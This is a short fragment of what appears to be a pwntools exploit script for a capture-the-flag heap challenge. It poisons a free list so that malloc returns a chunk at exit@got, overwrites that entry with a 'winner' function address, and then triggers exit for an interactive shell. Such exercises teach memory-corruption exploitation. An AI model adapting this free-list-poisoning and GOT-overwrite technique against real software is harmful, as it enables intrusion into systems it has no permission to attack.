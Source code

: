 ```py
send(b"0")
send(p64(exe.got["exit"])) # point free list to exit@got

send(b"1") # create (malloc)
send(b"3")

send(b"1") # create chunk at exit@got
send(b"4")

send(b"2")
send(b"4")
send(p64(exe.sym["winner"])) # edit exit@got to point at the winner function

send(b"1")
send(b"-1")

p.interactive()
```